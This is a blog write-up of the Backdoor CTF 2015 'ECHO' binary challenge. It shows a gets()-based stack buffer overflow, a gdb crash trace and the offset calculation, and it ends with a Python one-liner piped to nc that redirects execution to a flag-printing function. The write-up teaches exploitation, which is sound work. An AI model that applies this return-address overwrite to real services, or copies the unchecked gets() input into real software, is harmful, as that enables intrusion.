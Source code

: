 ```yaml
---
layout: post
title: "Backdoor CTF 2015 - ECHO Writeup"
date: 2015-04-03 02:12:58 +0430
comments: false
categories: ctf backdoor bianry exploit bof
---
```


**Backdoor 2015 ECHO Writeup**  
**Point = 100**  
**Category = Binary**  

> Little Suzie started learning C. She created a simple program that echo's back whatever you input. Here is the binary file. The vampire came across this service on the internet. nc hack.bckdr.in 8002. Reports say he found a flag. See if you can get it.

```
$ file echo
echo: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=15ec07e5664a13e94069c818141cc9f70591d0f0, not stripped
```

As it seems we have a 32bit binary as a ECHO server. the output confirms this:

```
$ nc hack.bckdr.in 8002
GeeksSpeak
ECHO: GeeksSpeak
```

opening the binary in IDA shows us that the main function calls test() as we can see the psuedo-code below :

<!-- more -->
```
int test()
{
  char s; // [sp+1Eh] [bp-3Ah]@1

  gets(&s);
  return fprintf(_bss_start, "ECHO: %s\n", &s);
}

```

It's an obvious Stack buffer overflow. without loosing time i loaded it into *gdb* and used  cyclic pattern to find the offset:

```
$ gdb ./echo -q
Reading symbols from ./echo...(no debugging symbols found)...done.
gdb-peda$ pattern_create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ shell echo 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL' > echo.test
gdb-peda$ r < echo.test 
Starting program: /home/hamidx9/ctf/backdoor/echo < echo.test
ECHO: AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL

Program received signal SIGSEGV, Segmentation fault.
[-----------------------------------------------------------------------------------------------------------registers-----------------------------------------------------------------------------------------------------------]
EAX: 0x6b (b'k')
EBX: 0xf7fae000 --> 0x1a8da8 
ECX: 0x6b (b'k')
EDX: 0xf7faf86c --> 0x0 
ESI: 0x0 
EDI: 0x0 
EBP: 0x41324141 (b'AA2A')
ESP: 0xffffcdd0 ("dAA3AAIAAeAA4AA"...)
EIP: 0x41414841 (b'AHAA')
[-------------------------------------------------------------------------------------------------------------code--------------------------------------------------------------------------------------------------------------]
Invalid $PC address: 0x41414841
[-------------------------------------------------------------------------------------------------------------stack-------------------------------------------------------------------------------------------------------------]
00:0000| esp 0xffffcdd0 ("dAA3AAIAAeAA4AA"...)
01:0004|     0xffffcdd4 ("AAIAAeAA4AAJAAf"...)
02:0008|     0xffffcdd8 ("AeAA4AAJAAfAA5A"...)
03:0012|     0xffffcddc ("4AAJAAfAA5AAKAA"...)
04:0016|     0xffffcde0 ("AAfAA5AAKAAgAA6"...)
05:0020|     0xffffcde4 ("A5AAKAAgAA6AAL")
06:0024|     0xffffcde8 ("KAAgAA6AAL")
07:0028|     0xffffcdec ("AA6AAL")
[-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------]
Legend: stack, code, data, heap, rodata, value
Stopped reason: SIGSEGV
0x41414841 in ?? ()
gdb-peda$ pattern_offset 'AHAA'
AHAA found at offset: 62
gdb-peda$ 

```

So the `offset = 62`. but where should we jump? IDA shows us there is another function named `sample` which open `flag.txt` and print its content. All have to do is to call `sample` with address = *0x0804854d*.

Final payload looks like below :

```
[A*62] + [0x0804854d in little endian]
```

And finally we've got the flag:

```
$ python -c 'import struct; q=lambda x: struct.pack("<I", x); print "A"*62+q(0x0804854d)' | nc hack.bckdr.in 8002
ECHO: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAM�
96f674623c2c378f89700aa46f02cf3b311489f0facdfac6fd5885d5bc1a129a
```

And another 100 pt.

HAMIDx9
